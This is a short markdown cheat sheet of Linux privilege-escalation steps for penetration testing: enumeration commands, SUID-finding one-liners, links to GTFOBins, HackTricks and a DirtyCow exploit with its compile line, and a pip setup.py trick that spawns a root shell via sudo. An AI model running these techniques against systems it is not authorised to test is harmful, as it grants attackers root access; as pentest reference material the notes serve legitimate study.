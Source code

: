 # Local Priv Esc
#linux #lpe
https://gtfobins.github.io/
https://lolbas-project.github.io/#
https://book.hacktricks.xyz/linux-unix/privilege-escalation

- Get OS information
- Check if the sudo version is vulnerable
	- sudo -v
	- sudo -l
- Check the PATH, any writable folder?
	- `set`
- Check env variables, any sensitive detail?
- Search for kernel exploits using scripts (DirtyCow?)
	- https://www.exploit-db.com/exploits/40839
	- gcc -pthread shell.c -o dirty -lcrypt
- Dmesg signature verification failed error?
- More system enum (date, system stats, cpu info, printers)
- Enumerate more defenses
	- #LinPEAS: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh


# Sticky-Bit

```

find / -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;

```

# Find files belonging to user

`find / -user <user> 2>/dev/null | egrep -v "proc|venv"`
`find / -group <group> 2>/dev/null | egrep -v "proc|venv"`

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# Exploit lxd group
https://www.hackingarticles.in/lxd-privilege-escalation/

# pip
`pip3 install <local_dir>` searches the local dir for a setup.py and executes it. Helpful if pip is in the sudoers or sbit.

Alternative (https://gtfobins.github.io/gtfobins/pip/):
```
TF=$(mktemp -d)
echo "import os;os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo -H /usr/bin/pip3 install $TF
```

